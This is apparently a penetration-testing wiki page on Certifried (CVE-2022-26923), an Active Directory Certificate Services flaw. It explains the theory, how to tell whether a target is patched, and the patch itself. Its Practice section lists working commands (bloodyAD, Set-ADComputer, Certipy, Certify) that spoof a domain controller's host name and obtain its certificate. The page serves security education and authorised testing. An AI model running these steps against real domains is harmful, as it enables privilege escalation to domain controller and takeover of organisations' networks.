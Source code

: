 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k\_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name`  and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.&#x20;

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping "mention").

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

{% tabs %}
{% tab title="UNIX-like" %}
This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

{% code overflow="wrap" %}
```bash
ccertipy req -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'
```
{% endcode %}

If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

{% hint style="warning" %}
Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.
{% endhint %}
{% endtab %}

{% tab title="Machine" %}
_At the time of writing this recipe, June 2022, no Windows alternative has been found._
{% endtab %}
{% endtabs %}

### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([machineaccountquota.md](../domain-settings/machineaccountquota.md "mention"), [#create-a-computer-account](../domain-settings/machineaccountquota.md#create-a-computer-account "mention")), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

{% tabs %}
{% tab title="UNIX-like" %}
The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

{% code overflow="wrap" %}
```bash
# Clearing the SPNs
bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' serviceprincipalname '[]'

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName '["$DC_NAME.$DOMAIN_FQDN"]'

# Verifying the dNSHostName value and SPN entries
bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP getObjectAttributes 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName,serviceprincipalname
```
{% endcode %}

{% hint style="info" %}
The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

{% tabs %}
{% tab title="UNIX-like" %}
[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.

{% code overflow="wrap" %}
```bash
certipy req -u 'compter$'@'domain.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Machine'
```
{% endcode %}

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

{% code overflow="wrap" %}
```batch
Certify.exe request /ca:"domain\ca" /template:"Machine"
```
{% endcode %}

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}

{% embed url="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923" %}

{% embed url="https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html" %}

{% embed url="https://tryhackme.com/room/cve202226923" %}
